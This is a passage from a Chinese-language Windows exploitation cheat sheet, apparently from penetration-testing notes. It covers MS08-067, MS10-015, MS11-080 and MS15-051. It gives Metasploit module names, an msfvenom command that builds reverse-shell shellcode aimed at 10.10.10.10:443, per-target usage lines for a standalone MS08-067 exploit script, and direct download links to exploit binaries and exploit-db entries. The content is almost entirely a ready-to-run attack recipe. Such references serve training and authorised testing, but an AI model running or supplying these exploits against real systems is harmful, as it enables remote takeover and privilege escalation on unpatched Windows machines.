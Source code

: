 ```powershell
exploit/windows/smb/ms08_067_netapi
```

如果你不能使用 Metasploit 并且只想获取一个反向 shell。

```powershell
https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows

示例：MS08_067_2018.py 192.168.1.1 1 445 - 适用于 Windows XP SP0/SP1 通用版，端口 445
示例：MS08_067_2018.py 192.168.1.1 2 139 - 适用于 Windows 2000 通用版，端口 139（也可以使用 445）
示例：MS08_067_2018.py 192.168.1.1 3 445 - 适用于 Windows 2003 SP0 通用版
示例：MS08_067_2018.py 192.168.1.1 4 445 - 适用于 Windows 2003 SP1 英文版
示例：MS08_067_2018.py 192.168.1.1 5 445 - 适用于 Windows XP SP3 法语版（NX）
示例：MS08_067_2018.py 192.168.1.1 6 445 - 适用于 Windows XP SP3 英文版（NX）
示例：MS08_067_2018.py 192.168.1.1 7 445 - 适用于 Windows XP SP3 英文版（AlwaysOn NX）
python ms08-067.py 10.0.0.1 6 445
```

### MS10-015 (KiTrap0D) - Microsoft Windows NT/2000/2003/2008/XP/Vista/7

'KiTrap0D' 用户模式到环提升（MS10-015）

```powershell
https://www.exploit-db.com/exploits/11199

Metasploit : exploit/windows/local/ms10_015_kitrap0d
```

### MS11-080 (afd.sys) - Microsoft Windows XP/2003

```powershell
Python: https://www.exploit-db.com/exploits/18176
Metasploit: exploit/windows/local/ms11_080_afdjoinleaf
```

### MS15-051 (Client Copy Image) - Microsoft Windows 2003/2008/7/8/2012

```powershell
printf("[#] usage: ms15-051 command 
");
printf("[#] eg: ms15-051 \"whoami /all\" 
");

# x32
https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/Win32/ms15-051.exe

# x64
https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/x64/ms15-051.exe

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051
use exploit/windows/local/ms15_051_client_copy_image
```
